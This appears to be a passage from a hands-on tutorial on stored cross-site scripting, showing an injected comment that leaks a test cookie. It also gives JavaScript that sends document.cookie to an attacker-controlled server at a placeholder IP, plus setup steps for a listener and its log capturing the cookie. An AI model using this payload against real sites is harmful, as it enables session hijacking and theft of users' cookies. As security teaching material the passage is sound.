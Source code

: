 ```
File: comment1
Hello world!

File: comment2
Goodbye, Universe

File: comment3
```

Comment 3 has no data, which is actually a good sign! This likely means that the Javascript was loaded and executed upon navigation to this page. This hopefully triggered the unwanted POST request. Refresh the page, and the new comment appears!

```
Commented Files Content
File: comment1
Hello world!

File: comment2
Goodbye, Universe

File: comment3
File: comment4
aaaaa=bbbbb
```

> Ensure that you have at least one cookie set before attempting this. If you do not have any, you can create one in the browser's cookie storage by manually setting a cookie name and value.

#### Forcing an Unwanted GET Request

The prior example works well for sites that accept POST requests for data that is displayed publicly. However, we have other situations where this is not viable—perhaps there is no publicly available place to store the cookie. In this situation we can use a GET request to another domain, particularly one that we control! We can simply make the request to a route `/{document.cookie}` and watch for any incoming traffic on our server.

The attack is similar to the POST request, but even more simple:

```javascript
var xhr=new XMLHttpRequest();
xhr.open('GET','http://X.X.X.X:8000/'+document.cookie,false);
xhr.send();
```

> Fill in `X.X.X.X` with the public IP of your server.

All we need now is a public IP address. Spinning up a Digital Ocean droplet, AWS, or GCP instance is a quick and easy option. Simply register the cloud VM, find its IP, and run a simple Python server with `python -m http.server`. 

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
X.X.X.X - - [26/Oct/2024 23:20:47] code 404, message File not found
X.X.X.X - - [26/Oct/2024 23:20:47] "GET /aaaaa=bbbbb HTTP/1.1" 404 -
```
